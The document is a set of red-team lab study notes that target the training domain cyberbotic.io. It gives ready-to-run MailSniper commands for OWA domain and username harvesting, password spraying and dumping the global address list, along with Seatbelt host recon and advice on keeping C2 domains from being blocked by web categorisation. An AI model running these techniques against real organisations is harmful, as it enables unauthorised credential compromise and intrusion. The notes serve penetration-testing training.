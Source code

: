 # Cobalt Strike 
- see cobalt strike file 

# External Recon Tools

- whois 
- dig
- dnscan
- other osint tools known

# Initial compromise (DISABLE WINDOWS DEFENDER ON ATTACKER MACHINE) 

-Mail Sniper 
-namesmash.py

**Used for attacking OWA Exchange service at MAIL DOMAIN that was found during the external recon.**

**Technique: Password Spraying**

>PS C:\Users\Attacker> ipmo C:\Tools\MailSniper\MailSniper.ps1

##### Enumerate the NetBIOS name of the target domain with Invoke-DomainHarvestOWA.

>PS C:\Users\Attacker> Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io

##### Next, we need to find valid usernames from the list of users enumerated from https://cyberbotic.io.

>ubuntu@DESKTOP-3BSK7NO ~> cd /mnt/c/Users/Attacker/Desktop/
>ubuntu@DESKTOP-3BSK7NO /m/c/U/A/Desktop> cat names.txt
*We could potentially skip this step if we knew the email address format from somewhere like hunter.io.*

##### Invoke-UsernameHarvestOWA uses a timing attack to validate which (if any) of these usernames are valid.

>PS C:\Users\Attacker> Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt

##### MailSniper can spray passwords against the valid account(s) identified using, Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS).

>PS C:\Users\Attacker> Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022

##### PS C:\Users\Attacker> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt

>PS C:\Users\Attacker> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt

##### If there are names here that we didn't find during initial recon, we can go back and do another round of spraying against them.


# Host Recon 

## SeatBelt 

https://github.com/GhostPack/Seatbelt

Checks security configs once you have a beacon on a compromised host

1. beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe -group=system

One thing to note from this output is that there's a web proxy in place - squid.dev.cyberbotic.io.  This has implications for HTTP(S) C2 for a variety of reasons.

Web Categorisation

Domain names are categorised by vendors so that they can be lumped together for filtering purposes.  This is useful so that everything categorised as "gambling", "drugs", "violence", or "social media", etc can be blocked outright.  If the domain being used for part of your engagement ends up in a blocked category, it becomes effectively useless.

Two strategies for tackling this issue include:

    Obtaining a domain that is already in a desirable category.
    Requesting a change of category for a domain.

# Persistence 

## SharPersist
https://github.com/mandiant/SharPersist 


# Misc Tooling 


https://sitereview.bluecoat.com/#/  <<< checks site reps and categories 

https://github.com/mdsecactivebreach/Chameleon  <<< helps categorise c2 domains for red teams 

https://github.com/cobbr/Covenant <<< allows red teams to pin their c2 certs 









